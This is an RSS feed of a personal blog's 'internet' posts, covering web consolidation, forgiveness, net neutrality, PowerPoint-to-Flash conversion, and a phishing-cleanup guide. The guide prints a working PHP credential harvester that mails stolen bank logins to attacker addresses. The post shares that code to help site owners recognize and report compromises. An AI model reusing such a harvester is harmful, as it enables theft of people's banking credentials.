

<?xml version="1.0" encoding="UTF-8"?>
<rss version="2.0"
	xmlns:content="http://purl.org/rss/1.0/modules/content/"
	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
	xmlns:dc="http://purl.org/dc/elements/1.1/"
	xmlns:atom="http://www.w3.org/2005/Atom"
	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
	>

<channel>
	<title>Chronosynclastic Infundibulum &#187; internet</title>
	<atom:link href="http://www.semanticoverload.com/tag/internet/feed/" rel="self" type="application/rss+xml" />
	<link>http://www.semanticoverload.com</link>
	<description>The world through my prisms</description>
	<lastBuildDate>Thu, 07 Apr 2011 17:36:17 +0000</lastBuildDate>
	<language>en-US</language>
	<sy:updatePeriod>hourly</sy:updatePeriod>
	<sy:updateFrequency>1</sy:updateFrequency>
	<generator>http://wordpress.org/?v=3.5</generator>
		<item>
		<title>Corporate Consolidation in Web 2.0</title>
		<link>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/</link>
		<comments>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/#comments</comments>
		<pubDate>Sun, 22 Aug 2010 00:33:28 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[deregulation]]></category>
		<category><![CDATA[google]]></category>
		<category><![CDATA[intel]]></category>
		<category><![CDATA[media]]></category>
		<category><![CDATA[oracle]]></category>
		<category><![CDATA[yahoo]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=688</guid>
		<description><![CDATA[In the 1960s, USA was host to a huge array of small business and stores. They have all but disappeared. The consolidation of corporations into the gaints that we see now have either gobbled up the mom-and-pop stores or driven them out of business. This started with the deregulation under Regan in the 80s. Next [...]]]></description>
				<content:encoded><![CDATA[<p>In the 1960s, USA was host to a huge array of small business and stores. They have all but disappeared. The consolidation of corporations into the gaints that we see now have either gobbled up the mom-and-pop stores or driven them out of business. This started with the deregulation under Regan in the 80s. Next came the <a title="Deregulation of media: dangerous to democracy" href="http://www.consumersunion.org/telecom/kimmel-303.htm">deregulation of media</a> in the 90s which saw<br />
many local TV and radio stations disappear to be replaced by commercial radio stations across the American landscape. I have a strong suspicion that the Internet is next.</p>
<div id="attachment_689" class="wp-caption alignleft" style="width: 160px"><a href="http://www.blindfiveyearold.com/wp-content/uploads/2008/12/2009-internet-and-technology-predictions.png"></a><p class="wp-caption-text">source: blindfiveyearold.com</p></div>
<p>To clarify what I am talking about, take a look at the recent (and by recent I mean in the last 5 years or so) spate of acquisitions by all the big players in the Internet business (both hardware and software): Intel acquired McAfee, Google acquired Like.com (and before that YouTube, Blogger, Writely, and <a href="http://en.wikipedia.org/wiki/List_of_acquisitions_by_Google">many more</a>), Oracle acquired <a href="http://www.oracle.com/us/corporate/Acquisitions/amberpoint/index.html">AmberPoint</a> and <a href="http://www.oracle.com/secerno/index.html">Secerno</a>, Yahoo recently acquired <a href="http://en.wikipedia.org/wiki/List_of_acquisitions_by_Yahoo!">Korpol and citizensports.com</a>, Microsoft acquired Sentillion and Opalis <a href="http://en.wikipedia.org/wiki/List_of_companies_acquired_by_Microsoft_Corporation">among so many more</a>, Apple recently accquired <a href="http://www.macrumors.com/2010/01/05/apples-purchase-of-quattro-wireless-confirmed/">Quattro</a>, <a href="http://www.macrumors.com/2009/12/04/apple-acquires-streaming-music-service-lala-media/">Lala media</a>, <a href="http://www.macrumors.com/2010/04/02/apple-appears-to-have-acquired-intrinsity/">Intrinsity</a>, and <a href="http://www.macrumors.com/2010/04/28/apple-purchases-iphone-personal-assistant-company-siri/">Siri</a>, and Cisco has made over 48 acquisitions in the last decade following by IBM with 35 [<a href="http://blogs.wsj.com/venturecapital/2010/01/05/cisco-acquired-most-start-ups-in-decade-but-oracle-king-in-09/">source</a>].</p>
<p>This is just the tip of the iceberg, and if this is any indicator of things to come, then you can expect such large scale consolidation to leave the Internet services and infrastructure is very few large players. This coupled with the <a title="Huffington post of Google and Verzon's deal against net neutrality" href="http://www.huffingtonpost.com/josh-silver/google-verizon-deal-the-e_b_671617.html">betrayal of Google against net neutrality</a> makes for an ominous prediction.</p>
<p>Increasingly, it looks like the best hope of an Internet startup is to be acquired by one of these gaints because otherwise they risk being drowned by an &#8216;addon&#8217; service offered by these gaints (sometimes for free). A great example is <a href="http://mashable.com/2010/08/19/facebook-places-guide/">Facebook places</a> and <a href="http://googleblog.blogspot.com/2010/04/introducing-google-places.html">Google places</a> vs. <a href="http://gowalla.com/">Gowalla</a>, <a href="http://foursquare.com/">Foursquare</a>, and their kind. So all your mom-and-pop store equivalent of Web 2.0 are now being consolidated into Google, Yahoo, Facebook, Intel, Oracle, Cisco, and few others.</p>
<p>So why is this bad? To get an idea of where that is going to leave us, take a look at what happened with the deregulation of the radio and TV stations in the US. You can&#8217;t get decent local news  and happenings anywhere except a few major cities. Rest of the places, local coverage is spotty. All local music now have to go to the major recording and music capitals of the nation just to be heard on the radio in their own home town. As a member of a local community radio station, I know how difficult things have become for independent radio broadcasters.</p>
<p>Expect something similar for the web. Expect to lose the rich and diverse sources of information and entertainment you are used to receiving from the web. It may not happen this year, or even in the next 5 years. But in the next decade, the web is going to be far less free than you see it today. The corporations want it that way, and that is how it will stay because the politicians won&#8217;t vote otherwise.</p>
<p>Welcome to Web 3.0 :-)</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/feed/</wfw:commentRss>
		<slash:comments>1</slash:comments>
		</item>
		<item>
		<title>Testing our morals for forgiveness</title>
		<link>http://www.semanticoverload.com/2010/08/20/testing-our-morals-for-forgiveness/</link>
		<comments>http://www.semanticoverload.com/2010/08/20/testing-our-morals-for-forgiveness/#comments</comments>
		<pubDate>Fri, 20 Aug 2010 18:32:27 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[discussion]]></category>
		<category><![CDATA[philosophy]]></category>
		<category><![CDATA[forget]]></category>
		<category><![CDATA[forgive]]></category>
		<category><![CDATA[internet]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=683</guid>
		<description><![CDATA[I used to hold grudges against people for wronging me. With time I learned to forgive them, but I don&#8217;t think I ever forgot what they did to me. Interestingly, the deeds I remember the most are the ones I have been able to forgive the least. Even now I hold a childhood grudge which [...]]]></description>
				<content:encoded><![CDATA[<p>I used to hold grudges against people for wronging me. With time I learned to forgive them, but I don&#8217;t think I ever forgot what they did to me. Interestingly, the deeds I remember the most are the ones I have been able to forgive the least. Even now I hold a childhood grudge which often times seems juvenile but I still find it difficult to forgive that person. But this post is not about my moral weaknesses. This is more about the hypocrisy that we all subscribe to when it comes to forgiveness.</p>
<p>Take any religious moral codex and it will emphasize of forgiving, and more about about forgiving even though one should not forget. This mantra worked well for, well, hundreds or even thousands of years, but now it seems to be coming under increasing attack. That attacks comes from the most unlikely source &#8212; the Internet!</p>
<p>Over the millenia, we (and by we, I mean human kind) have been able to forgive and let people start over mostly <em>because we can forget</em>. That is, we could forgive misdeeds because even though we remembered them at that time, we knew that our memory was fallible and so we would eventually forget the misdeeds. What&#8217;s the point of being unforgiving about something you don&#8217;t even remember? There is a lot of value in such forgiving because it makes you life a lot easier. It helps you be happy rather than be depressed by everything that has gone wrong because of someone else. In the end, if you did not forgive, then you will ending up hating a lot of people and not really know why! A tragic way to lead a life indeed.</p>
<p>Surprisingly, the Internet has changed all that because the Internet <em>never forgets</em>. So the traditional incentive to forgive (namely, that you will eventually forget it, so what&#8217;s the point in holding on to a grudge) is no longer there. Facebook, Google, Blogs, Twitter, message boards, discussion forums, all of them chronicle your life in a non-volatile fashion to enable you to recall everything about your life if you choose put your life up online. As it turns out, a lot of people put their life up online. So there you have it, now if you want to forgive, it would have to be true forgiveness, despite the fact that you will probably never forget.</p>
<p>How many people have such moral fortitute to be able to forgive despite not being able to forget?  Not many, I hazard to guess. In many ways,  forgetting may be viewed as our biological adaptation for a happier life. We have successfully invalidated that adaptation with the Internet. Now what?</p>
<p>The irony in this deal is that social networking, a mechanism created by technology to keep us happy by keeping us from becoming isolated has precipitated a side-effect that is now actively undermining the very some thing it strived to foster to begin with!</p>
<p>And I am not making all this up. This is not some high flying philosophical/spiritual rant with no material underpinning. Just take look at the news over the past year. Look at how many people we fired because of an indisrection that was years and years old and was discovered only recently thanks to Facebook. Consider the well-trained teachers who can now no longer teach because at some low point in their lives, they were forced to become an exotic dancer to pay their tuition and fees (Why? Because someone took her photograph during a bachlor party and put it up online). I can go on and on with more realistic (and potentially true) illustrations; but you get the point.</p>
<p>So now the question is, what are you prepared to truly forgive despite never forgeting. And this is not for any altruistic motive, but for a very selfish one. You happiness. Do you value your happiness enough to let someone else off the hook? Are you willing to forgive and <em>never</em> forget?</p>
<p>P.S.: Inspired by <a title="&quot;How to let go of grudge&quot;" href="http://www.ipatrix.com/3590/how-to-let-go-of-a-grudge/">a post from Patrix</a> and an <a title="NY Times article &quot;Web mean the end of forgetting&quot;" href="http://www.nytimes.com/2010/07/25/magazine/25privacy-t2.html">NY Times article</a>.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/20/testing-our-morals-for-forgiveness/feed/</wfw:commentRss>
		<slash:comments>2</slash:comments>
		</item>
		<item>
		<title>If your site has been compromised with phishing attack code&#8230;</title>
		<link>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/</link>
		<comments>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/#comments</comments>
		<pubDate>Tue, 17 Mar 2009 07:30:42 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[legal]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[attack]]></category>
		<category><![CDATA[phishing]]></category>
		<category><![CDATA[php]]></category>
		<category><![CDATA[scam]]></category>
		<category><![CDATA[security]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[wachovia]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=316</guid>
		<description><![CDATA[I recently recevied the following email: To whom it may concern: Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial [...]]]></description>
				<content:encoded><![CDATA[<p>I recently recevied the following email:</p>
<blockquote><p>To whom it may concern:</p>
<p>Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial resources to advertise and promote its products and services under the marks and considers the marks to be valuable assets of Wachovia.</p>
<p>It has come to our attention that your company is hosting a known active phishing site.  The active phishing site displays the Wachovia Marks and is intended to defraud customers in an attempt to capture and use their identity.  Network Whois records indicate the IP address of the phishing site is registered to your Internet space.</p>
<p>Accordingly, we request that your site bring down the Phishing web site at:<br />
&lt;&lt; http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html &gt;&gt;</p></blockquote>
<p>So that&#8217;s how I knew that my site had been compromised by hackers and a <a href="http://en.wikipedia.org/wiki/Phishing">phishing attack</a> code had been injected into my site. <strong>If it has happened to you, do you know what is the right thing to do? How do you fix it? </strong>Well, here is what I did, and I think it is worthwhile to share this information so that it may be useful to others.. So here goes.<br />
<span id="more-316"></span></p>
<h3>Step 1. Disable Your Site</h3>
<p>First, disable your site, bring it down temporarily. The last thing you want is for more people to be scammed by a hacker who compromised your site. You can do that by disabling all access to all the files within your website. If the website is running on unix/linux you can do a &#8220;chmod -R 000 &lt;website-home-directory&gt;&#8221; (Refer to the <a title="Chmod tutorial" href="http://www.zzee.com/solutions/chmod-help.shtml">chmod tutorial here</a>). For those using cpanel, go to the file manager and change the permissions of the document root for the website.</p>
<h3>Step 2. Investigate the Offending Webpage</h3>
<p>Now that no more unsuspecting users can be affected by this phishing attack. Now we dig into the offending webpage that is causing the problem. In my case it was: http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html</p>
<p>I opened up the html file, and this is what I saw:</p>
<blockquote><p>&#8230;&#8230;</p>
<p>&lt;html xmlns=&#8221;http://www.w3.org/1999/xhtml&#8221;&gt;&lt;head&gt;</p>
<p>&lt;title&gt;Wachovia &#8211; Personal Finance and Business Financial Services&lt;/title&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Clearly, someone was impersonating the Wachovia website. Now, with phishing, someone is trying to steal your username and password by impersonating some crediable website that needs your username and password to get into. In HTML, this is typically accomplished through &#8216;forms&#8217;, which starts with a `&lt;form&gt;&#8217; tag in HTML. So I dug through the code and I saw two form tags.</p>
<p>The first one was:</p>
<blockquote><p>&lt;form method=&#8221;get&#8221; action=&#8221;http://search.wachovia.com/selfservice/microsites/wachoviaSearchEntry.do?&#8221; name=&#8221;searchForm&#8221; onsubmit=&#8221;return verifyQuery(this.searchString);&#8221;&gt;</p></blockquote>
<p>&#8230;..</p>
<p>This looks fine because the &#8216;action&#8217; parameter points to http://search.wachovia.com/selfservice&#8230;. which is a search script on the Wachovia website. So anyone filling you this form is sendin their data to the Wachovia website and the hacker will not get any information from it.</p>
<p>Now to the second form tag:</p>
<blockquote><p>&lt;form method=&#8221;post&#8221; action=&#8221;screen.php&#8221; name=&#8221;uidAuthForm&#8221; id=&#8221;uidAuthForm&#8221; onsubmit=&#8221;return submitLogin(this)&#8221;&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Aha! The smoking gun! Why? Well, look at the &#8216;action&#8217; parameter in this &#8216;form&#8217; tag, it says &#8216;screen.php&#8217; which is clearly not a script that is on the Wachovia servers, but something that is hosted on my website! So the hackers installed another script on my system to phish the username and passwords. Now I go see what&#8217;s inside this &#8216;screen.php&#8217; file that is located in the same directory as the &#8216;confirm.html&#8217; file we have been looking at so far.</p>
<h3>Step 3. Isolate the script that is doing the actual phishing attack and find the offenders</h3>
<p>So I open up the &#8216;screen.php&#8217; file and this is what I find:</p>
<blockquote><p>&lt;?php</p>
<p>$ip = getenv(&#8220;REMOTE_ADDR&#8221;);<br />
$datamasii=date(&#8220;D M d, Y g:i a&#8221;);<br />
$userid = $HTTP_POST_VARS["userid"];<br />
$password = $HTTP_POST_VARS["password"];<br />
$mesaj = &#8220;Hello<br />
userid : $userid<br />
password : $password<br />
&#8212;&#8212;&#8211;0WN3d By Louis&#8212;&#8212;&#8212;&#8212;&#8212;-<br />
IP : $ip<br />
DATE : $datamasii<br />
&#8220;;</p>
<p>$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;<br />
$subject = &#8220;Take What U need But Make Sure U Cash It Out !!!&#8221;;</p>
<p>mail($recipient,$subject,$mesaj);<br />
mail($to,$subject,$mesaj);<br />
header(&#8220;Location: http://www.wachovia.com/helpcenter/0,,,00.html&#8221;);<br />
?&gt;</p></blockquote>
<p>So here we are! Gotcha! Check out the line &#8216;$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;&#8217; Clearly, the phishing attack was being carried out by the following two email addresses: cashbug5010@gmail.com and smithgreen@hotmail.com. Now that I have this much information, what do we do next?</p>
<h3>Step 4. Inform the Authorities</h3>
<p>We give this information to the authorities who can carry the investigation forward. And who are they? First, respond back to the email address that alerted you of this phishing attack (do a &#8216;reply all&#8217; if there were multiple recipients/Cc&#8217;s to the email you received). Also, copy phishing-report@us-cert.gov and cert@cert.org to this email and just give them a copy of the phishing code (in this case it was the file &#8216;screen.php&#8217;) and the offending email addresses you found.</p>
<p>As for now, that is all you can do, and just co-operate with the authorities if they need more information.</p>
<h3>Step 5. Quarantine the Malicious Code and Restore Your Website</h3>
<p>Quarantine the files (by disabling their permission to &#8217;000&#8242;) and now that the code has been quarantined, you can bring your website up again by setting the permission back to as they were earlier (except for the offending code).</p>
<p><strong>DO NOT DELETE THE MALICIOUS CODE BECAUSE IT IS EVIDENCE AGAINST THE PHISHING ATTACK AND EXONERATES YOU! </strong>Otherwise, the authorities may pursue you as an accessory to the crime!</p>
<h3>Step 6. Inform Google That Your Site is Safe Again</h3>
<p>Now, note that the odds are that Google has already put a notice out against your site as a source of a phishing attack. So go to the following URL <a href="http://www.google.com/safebrowsing/report_error/">http://www.google.com/safebrowsing/report_error/</a> to let Google know that the problem has been taken care off and you site is safe again.</p>
<p>And that&#8217;s all you can do for the moment. Make sure your site is secure and you haven&#8217;t given permission to any of your directories to be writable by anyone except you. As for preventing future security breaches, it is always a cat-and-mouse game with hackers and like of you getting smarter and better than the other.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/feed/</wfw:commentRss>
		<slash:comments>7</slash:comments>
		</item>
		<item>
		<title>Net Neutrality: what is it really about?</title>
		<link>http://www.semanticoverload.com/2008/04/25/net-neutrality/</link>
		<comments>http://www.semanticoverload.com/2008/04/25/net-neutrality/#comments</comments>
		<pubDate>Fri, 25 Apr 2008 22:01:41 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[debate]]></category>
		<category><![CDATA[discussion]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[content provider]]></category>
		<category><![CDATA[ISP]]></category>
		<category><![CDATA[net]]></category>
		<category><![CDATA[net neutrality]]></category>
		<category><![CDATA[network provider]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=158</guid>
		<description><![CDATA[Net Neutrality has been an ongoing debate for quite a few years now. In its simplest terms, net neutrality is a principle that states that all traffic on the internet must be treated the same way; that there should be no preferential treatment to a specific kind or class of traffic. The are many camps [...]]]></description>
				<content:encoded><![CDATA[<p><a title="Net neutrality" href="http://en.wikipedia.org/wiki/Network_neutrality">Net Neutrality</a> has been an ongoing debate for quite a few years now. In its simplest terms, net neutrality is a principle that states that all traffic on the internet must be treated the same way; that there should be no preferential treatment to a specific kind or class of traffic. The are many camps for and against net neutrality. Each group fervently advocates its position on the issue, while slinging mud on the other camp. This debate has polarized large sections of stakeholders on the internet. Unfortunately, most of the polarization is based more on propaganda  and prejudice than facts. Investigating the net neutrality issue reveals that the waters are indeed quite muddy.<br />
<span id="more-158"></span><br />
The groups supporting net neutrality &#8212; like <a title="SAVE THE INTERNET Coalition" href="http://www.savetheinternet.com/">SaveTheInternet.com Coalition</a> &#8212; argue that net neutrality is fundamental to the success of the internet. Net Neutrality prevents ISPs from speeding up or slowing down Web content based on its source, ownership or destination. If ISPs are allowed to slow certain web content down and speed others up, based of Service Level Agreements (SLA) with content providers (like Reuters, Fox News, Yahoo, Google, Facebook etc.), then this will result in all big corporations signing SLAs with all ISPs, and individual content providers like bloggers will be left out in the cold, and there is little that can be done against such discrimination. In essence, the advocates argue that net neutrality an extension of free speech, and is necessary to protect free speech on the internet. Other implications of not having net neutrality include ISPs allowing (say) Google&#8217;s pages to load faster than (say) Yahoo&#8217;s (because Google signed an SLA with the ISP), thus denying its users efficient access to their trusted source of information.</p>
<p>The groups opposing net neutrality &#8212; like <a title="Hands Off The Internet" href="http://www.handsoff.org/">Hands Off The Internet Coalition</a> &#8212; argue that heavy regulation of the internet runs against free market economics, and that such restrictions slow down the rate of innovation on the internet. They argue that different kinds of internet traffic have different requirements. For instance, live chat requires less bandwidth, but the traffic cannot be delayed, on the other hand streaming video requires high bandwidth, but can afford some delay because the video is buffered at the viewing computer, downloads can withstand occasional delays and low bandwidth. It makes sense treat each of these traffic streams differently in order to provide a better user experience, but net neutrality prohibits this.</p>
<p>Lets see how the arguments for and against net neutrality really stand up to criticism.</p>
<p>Now, if net neutrality was implemented as a strict regulation, this can give rise to a lot problems. For instance, how do network providers treat spam under net neutrality? Currently, network providers can block spam at the entry point into their network. If the networks are expected to treat all traffic equally, then they have to treat spam the same as other traffic. Which implies that they are having to bear the cost of routing spam on their networks with no income from it. Guess who they will pass that cost on to: the consumers. So is net neutrality really what the consumers want?</p>
<p>If customers subscribed to a pay-per-view service over the internet, then customers have every right to be guaranteed a satisfactory viewing experience. However, the network provider cannot do that under net neutrality because the provider is not allowed to allocate bandwidth for the pay-per-view service. So is net neutrality really helping?</p>
<p>On the other hand, if net neutrality wasn&#8217;t implemented then this would allow network providers to treat different kinds of traffic differently, thus providing a better user experience. But if that were truly an issue then how do different classes of network traffic work well today without so-called &#8216;tiered&#8217; services for different classes of traffic. Answer: there is more bandwidth in the network core than the traffic consumes. As long as there is good admission control on the edge of the Internet, it doesn&#8217;t seem like you need such &#8216;tiered&#8217; services. Wouldn&#8217;t that make the &#8216;tiered&#8217; services argument too weak?</p>
<p>Consider the competition between VoIP services and traditional phone lines. Typically all your phone providers are also ISPs. And VoIP is very sensitive to delay in the traffic, more so than web browsing, streaming video, or downloads. So if the ISPs wanted to discourage their customer from using VoIP services, then they could do that by simply delaying packets for a few seconds randomly. For web browsing and other services, it would only show up as a few seconds delay in a page loading, or a delay in the video starting, which is easily tolerable. But with VoIP, this would show up as a jitter in a voice call. This would make VoIP unusable. Don&#8217;t we need regulations to protect the customers from such practices? Isn&#8217;t net neutrality a way out of this?</p>
<p>So net neutrality, while addressing some issues, opens up other problems which the Internet community will have to deal with. Worse, while it is easy to make a regulation like net neutrality, it is very difficult to enforce it. How do you detect a violation of net neutrality? If &#8216;bad&#8217; ISPs are smart enough, then they can hoodwink any mechanism to detect such violations. It can range from delaying all traffic for a few seconds so that only VoIP services are affected, to dropping only certain kinds of traffic during periods of traffic congestion. The above two techniques is indistinguishable from situations where a `good&#8217; ISP is having traffic management problems and so is forced to delay traffic, or is forced to drop traffic during congestion. So how do you distinguish &#8216;bad&#8217; ISPs from &#8216;good&#8217; one and penalize only the &#8216;bad&#8217; ones? Its not always possible.</p>
<p>So, if net neutrality is more a regulation in theory, than something which can be enforced successfully, and people do realize it, then why do we have groups advocating for it so strongly? What could be gained from it, other than a rhetorical stand on the ideals that they strive for? The answer might surprise you.</p>
<p>Ironically, the arguments being made on both sides of net neutrality fails to address the real issue. In fact, it serves to hide the real issue of why net neutrality has become such a focal point of conflict on the internet today. To understand this better, lets see who are the corporate entities involved in the net neutrality debate. The supporters of net neutrality include the likes of <a title="Google on Net neutrality" href="http://www.google.com/help/netneutrality.html">Google</a>, Yahoo, <a title="eBay on net neutrality" href="http://www.ebaymainstreet.com/federal/net-neutrality/">eBay</a> and <a title="AeA on net neutrality" href="http://www.aeanet.org/publications/AeA_CS_Net_Neutrality.asp">AeA</a>. The opposers of net neutrality include the likes of <a title="harware firms oppose net neutrality" href="http://www.news.com/2100-1028_3-6073629.html">3M, Cisco Systems, Qualcomm</a>, <a title="Verizon, AT&amp;T, and Time Warner oppose net neutrality" href="http://www.freepress.net/news/30594">Verizon, AT&amp;T, and Time Warner</a>. Note that there is a clear division of the functional roles of each camp. The camp which supports net neutrality are all content providers where as the camp which opposes net neutrality are all network infrastructure providers.</p>
<p>Why do content providers like net neutrality? Because it allows the content providers to innovate and come up with new applications and solutions without having to worry about how these application will be treated by the network. Why do network infrastructure providers oppose net neutrality? Because this will aloow for innovation and diversity in network infrastructure to accommodate new applications and solution which can evolve from the Internet. What does this mean? This means that net neutrality is no longer about free speech, or democracy, or free market, or any ideals. Its all about who gets to control the internet and the innovation in it. <strong>Net neutrality, under the hood, is an ongoing battle between content providers and infrastructure providers over who controls the web and the innovation in it.</strong></p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2008/04/25/net-neutrality/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>Making Your Presentations Portable</title>
		<link>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/</link>
		<comments>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/#comments</comments>
		<pubDate>Mon, 21 Apr 2008 22:32:18 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[AuthorPoint Lite]]></category>
		<category><![CDATA[flash]]></category>
		<category><![CDATA[narration]]></category>
		<category><![CDATA[portable]]></category>
		<category><![CDATA[powerpoint]]></category>
		<category><![CDATA[swf]]></category>
		<category><![CDATA[windows]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=150</guid>
		<description><![CDATA[I had the following problem(s): I had a fairly large presentation which I had to share among several people for review. Not everyone was running the same version of Powerpoint, and not everyone used Windows. People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along [...]]]></description>
				<content:encoded><![CDATA[<p>I had the following problem(s):</p>
<ul>
<li>I had a fairly large presentation which I had to share among several people for review.</li>
<li>Not everyone was running the same version of Powerpoint, and not everyone used Windows.</li>
<li>People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along with the voice narration) later.</li>
<li>I wanted it to be accessible and usable by everyone regardless of the OS, the browser, or the presentation software they were using.</li>
</ul>
<p>I figured this was a pretty common problem that many people face and a documented solution would be nice. More so, since someone I demonstrated this solution to now swears by it and can&#8217;t thank me enough. So I figured, why not spread the knowledge :) (Unfortunately, this solution works only if you are using Windows XP/Vista. Sorry, I couldn&#8217;t find the right tools to make it work on MAC OS X.)</p>
<p>Here&#8217;s the bird&#8217;s eye view of my solution:</p>
<ol>
<li>Prep your presentation to be made &#8216;complete&#8217; and &#8216;kiosk-ready&#8217;.</li>
<li> <a href="http://www.download.com/AuthorPOINT-Lite/3000-2075_4-10719205.html">Download and install AuthorPoint Lite</a>.</li>
<li> Import the presentation into AuthorPoint Lite, and preserve the rehearse timings, animations, and (optionally) narration.</li>
<li> Convert the presentation to flash using AuthorPoint Lite.</li>
<li>Upload the generated swf file online for the world to see!</li>
<li> The End.</li>
</ol>
<p><span id="more-150"></span></p>
<h3>Prepping your presentation</h3>
<p>Before you can make a presentation portable, you have got to make sure that the presentation itself has enough information in it to be portable. Also, you have to ensure that the presentation have been configured so that the tools you will use to make it portable can use it to advantage.</p>
<p>So here&#8217;s how you would go about the job:</p>
<p><em><span style="text-decoration: underline;">Ensure all information is available</span></em></p>
<p>When are making a presentation portable, then, more often than not, the people who will access it will not have the luxury of you walking through the presentation for them. So make sure you have notes for each slide for the presentation to be understandable on its own, even without the speaker present. It often a good idea to include the text of your narration for each slide in the Slide Notes section.</p>
<p><em><span style="text-decoration: underline;">Recording Narration</span></em></p>
<p>You also have the choice of recording your narration. You can do this if you would like people to be able to view and <em>hear</em> your presentation online. In order to record your presentation (Assuming you have a workgin microphone to record) you need to do the following:</p>
<ul>
<li>Ensure that you have no automatic animations set. You can do that as follows:
<ol>
<li> Click on the Slide Show menu and choose Custom Animation.</li>
<li>Click on the first item in the Animation Order box on the Order &amp; Timing tab.</li>
<li>Select the On Mouse Click radio button under Start Animation as shown in the figure below.<a href="../../../wp-content/uploads/2008/04/custom-animation.gif"></a></li>
</ol>
</li>
<li> Test your microphone by opening Slide Show -&gt; Record Narration -&gt; Set Microphone Level button. You’ll see the Microphone Check dialog box pop up. Set the level appropriately as shown below:<a href="../../../wp-content/uploads/2008/04/test-microphone.gif"></a></li>
<li> You can adjust the sound quality if you like:<br />
<a href="../../../wp-content/uploads/2008/04/sound-quality.gif"></a></li>
<li> DO NOT check the &#8216;Link the Narrations&#8217; checkbox! This option being unchecked is very important for portability!</li>
<li> Now start recording you narration and manually click through the slides (and animation) as you narrate into the microphone. You can stop anytime by pressing [Esc]. After you reach the last slide, or after you press [Esc], PowerPoint will ask if you&#8217;d like to save the slide timings. Click No. (As shown below):<br />
<a href="../../../wp-content/uploads/2008/04/save-slide-timtings-dialong.gif"></a></li>
<li> Now you can browse through the slides and review your narration by clicking on the  icon. You can delete the narration on each slide and record the narration if necessary.</li>
</ul>
<p><em><span style="text-decoration: underline;">Rehearsing Timing</span></em></p>
<p>Click on the Slide Show menu and choose Rehearse Timings. You&#8217;ll immediately be transferred into Slideshow View, and the narration should begin. You’ll see a Rehearsal toolbar appear:</p>
<p><a href="../../../wp-content/uploads/2008/04/rehearse-timing.gif"></a></p>
<p>Advance through the presentation by advancing to the next slide when the narration for each slide is complete. Also make sure that you step through the animation appropriately. When you&#8217;ve scrolled through the entire presentation, PowerPoint will again ask if you&#8217;d like to save the timings. Click Yes.</p>
<p>Now your presentation is self-contained and complete. However, it is still a .ppt file. To make it portable, you need to convert it to a more portable format. My choice is ShockWave File, or Flash format.</p>
<h3>AuthorPoint Lite</h3>
<p><a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a> is a free Powerpoint-to-Flash converter. The neat thing about this software is that it can import all the settings from a powerpoint slide including narration, rehearsed timing, custom animation etc. <a title="AuthorPoint Lite Review" href="http://www.freewaregenius.com/2007/08/01/authorpoint-lite/">Here is a great review on AuthorPoint Lite</a>.</p>
<ul>
<li>Download and install <a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a></li>
<li>Import your presentation into AuthorPoint Lite.</li>
<li>Save it as a swf file.</li>
</ul>
<h3>Uploading the swf file</h3>
<p>Now upload the saved swf file to your webserver, and provide a link to it on your website. This swf file is your presentation complete with your narration, animation, slide timings, your slide notes, etc. And the best part is that sinceits a swf file, any browser with a flash plugin can play this file! Truly portable!</p>
<p>Enjoy</p>
<h3>The End</h3>
<p>:)</p>
]]></content:encoded>
